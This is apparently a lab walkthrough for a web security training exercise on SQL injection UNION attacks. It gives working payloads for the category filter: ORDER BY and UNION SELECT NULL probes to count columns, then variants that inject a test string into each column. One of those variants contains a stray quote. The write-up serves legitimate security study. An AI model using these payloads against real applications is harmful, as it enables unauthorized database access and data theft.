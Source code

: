 # Lab: SQL injection UNION attack, finding a column containing text

- This lab contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
- To construct such an attack,you first *need to determine the number of columns returned by the query.*
- The lab will provide a random value that you need to make appear within the query results.
- To solve the lab, perform a *SQL injection UNION attack* that returns an additional row containing the value provided.

# This technique helps you determine which columns are compatible with string data. 

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# Determine the number of columns that are being returned by the query.Use this payload in `category` parameter.
```
' ORDER BY 3--
```

OR

```
'+UNION+SELECT+NULL,NULL,NULL--
```

# Try replacing each null with the random value provided by the lab:
```
Make the database retrieve the string: 'sxtVhr'
```

```
'+UNION+SELECT+'sxtVhr',NULL,NULL--
'+UNION+SELECT+NULL,'sxtVhr',NULL--
'+UNION+SELECT+NULL',NULL,'sxtVhr'--
```
# If an error occurs, move on to the next null and try that instead.
![lab_solved](Images/L8labsolved.png)